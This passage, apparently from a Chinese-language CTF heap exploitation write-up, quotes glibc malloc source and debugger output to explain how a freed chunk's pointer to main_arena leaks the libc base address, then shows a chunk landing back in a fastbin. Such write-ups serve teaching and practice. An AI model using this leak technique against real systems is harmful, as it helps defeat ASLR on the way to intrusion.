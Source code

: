 ```c
              victim == av->last_remainder &&
              (unsigned long) (size) > (unsigned long) (nb + MINSIZE))
            {
              /* split and reattach remainder */
              remainder_size = size - nb;
              remainder = chunk_at_offset (victim, nb);
              unsorted_chunks (av)->bk = unsorted_chunks (av)->fd = remainder;
              av->last_remainder = remainder;
              remainder->bk = remainder->fd = unsorted_chunks (av);
              if (!in_smallbin_range (remainder_size))
                {
                  remainder->fd_nextsize = NULL;
                  remainder->bk_nextsize = NULL;
                }

              set_head (victim, nb | PREV_INUSE |
                        (av != &main_arena ? NON_MAIN_ARENA : 0));
              set_head (remainder, remainder_size | PREV_INUSE);
              set_foot (remainder, remainder_size);

              check_malloced_chunk (av, victim, nb);
              void *p = chunk2mem (victim);
              alloc_perturb (p, bytes);
              return p;
            }
```

得到一个small bin：

```shell
[+] small_bins[10]: fw=0xb3a090, bk=0xb3a090
 →   Chunk(addr=0xb3a0a0, size=0xb0, flags=PREV_INUSE)
[+] Found 1 chunks in 1 small non-empty bins.
```

同时，在0xb3a0a0这个small bin被剔除出unsorted bin时，0xb3a020的fd指针指向了main_arena+88，见代码：

```c
          /* remove from unsorted list */
          unsorted_chunks (av)->bk = bck;
          bck->fd = unsorted_chunks (av);
```

所以，此时的0xb3a020处存储了main_arena+88的地址，又由于这个地为第一个Word结构体的word_ptr指向的地址，所以后续对0x78的搜索正好就能找到0xb3a020，从而泄露出libc的基址。

```shell
[*] libc_base: 0x7fbfaf7d3000
```

将存储搜索0x78的堆释放后，再次得到一个fastbin：

```shell
Fastbins[idx=0, size=0x10]  ←  Chunk(addr=0xb3a020, size=0x20, flags=PREV_INUSE)
```
